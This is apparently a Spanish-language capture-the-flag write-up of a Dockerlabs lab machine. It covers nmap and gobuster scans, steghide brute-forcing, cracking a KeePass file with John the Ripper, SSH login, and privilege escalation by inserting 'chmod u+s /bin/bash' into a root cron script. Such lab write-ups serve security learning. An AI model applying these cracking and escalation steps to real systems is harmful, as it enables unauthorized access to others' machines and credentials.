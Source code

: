 Máquina HackePenguin

Iniciamos con mi rutina básica de reconocimiento de nmap:

```
sudo nmap -p- --open -sSCV --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oN Target
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:13:95:24:c7:08:e8:36:51:6d:ab:b2:e5:3e:3b:da (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNVFhFPx46QZ+sM4vC3yecbwD2hDgxKBg8x/alXdgL/ojBUsbliyqCPFfQ08+WTNu+4fipx7zg9V8ZjKDxFmBnw=
|   256 e2:f3:81:1f:7d:d0:ea:ed:e0:c6:38:11:ed:95:3a:38 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIWG6446chvKHIhxdIVHwcEw1kXFORyLzANPqUKTdCku
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Bueno pues vemos una página web y un ssh activo, vamos a enumerar la página web:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/c964245a-da2d-4e32-aabe-ca9296101542)

Bueno es un apache por defecto, vamos a fuzzear un poco a ver si encontramos algo:

```
gobuster dir -u "http://172.17.0.2" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/penguin.html         (Status: 200) [Size: 342]
/.html                (Status: 403) [Size: 275]
Progress: 406141 / 4741020 (8.57%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 407142 / 4741020 (8.59%)
===============================================================
Finished
===============================================================
```

Ya hemos encontrado cositas, vamos a verlo:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/266c4060-d7fd-4713-a74c-863dab65d04d)

No vemos nada a priori, vamos a ver la imagen, que es lo unico que tenemos de valor, así que por probar vamos a descargarnos la imagen con 
wget la imagen y a meterle un rockyou con stegide:

Para hacer fuerza bruta con steghide tengo un repositorio: https://github.com/FakeLuci/brute-force-on-steghide.git

Configuramos el script y encontramos que la contraseña es chocolate:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/5a02c44d-d5df-49ea-89f7-ffdb337598ee)

Al parecer hemos extraido un archivo penguin.kdbx, sinceramente no tengo ni idea de que es un archivo .kdbx, investigando he encontrado que
es un archivo de keepass, pues bueno vamos a descargarnos keepass para ver que hay dentro:

Intentamos entrar al archivo de keepas para ver uqe hay dentro:

```
keepass2 penguin.kdbx
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/6992b937-9586-44d7-bc76-9aa94ef39bce)

Bueno al parecer la contraseña chocolate no es la contraseña master de este archivo, he estado investigando en internet y este mismo archivo se puede desencriptar con john
de la siguiente manera:

```
keepass2john penguin.kdbx > password
john password
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/4e435199-8253-4afb-a3fa-1c1ea3c9e682)

Pues si sabemos que la paswword de el archivo es "password1" pues entramos en el archivo

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/7100dbf4-a2c7-4ab7-8b78-f6ef569e6de4)

teniendo estas credenciales ahora podemos entrar por ssh:

Bueno pues probando con el usuario pinguino no va, he probado con penguin y ahora si va, vamos a ver que hay dentro:

Una vez dentro utilizamos el siguiiente comando para mejorar la consola:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Bueno nada mas entrar he hecho ls y he encontrado un script bastante tentador, vamos a ver si es una tarea cron con el siguinete script:

```
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "^[<>]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
```

y bueno de primeras ya vemos que se ejecuta muchisimas veces supongo que estara cada segundo o algo así:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/e78f8f5a-4920-40b7-bcac-8cd18230f396)

pues bueno tan simple como poner dentro de este script: chmod u+s /bin/bash

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/9069eee9-b0ee-49e7-8e67-34bc4ae2908b)

Esta máquina me ha gustado mucho ya que he aprendido a saber y desencriptar que es un archivo .kdbx y a utilizar keepass2
ademas de utilizar unas cuantas herramientas scripteadas sin tener que hacer copia y pega como el script de steghide y el procmon

Dificultado 2/5
Diversión 2/5




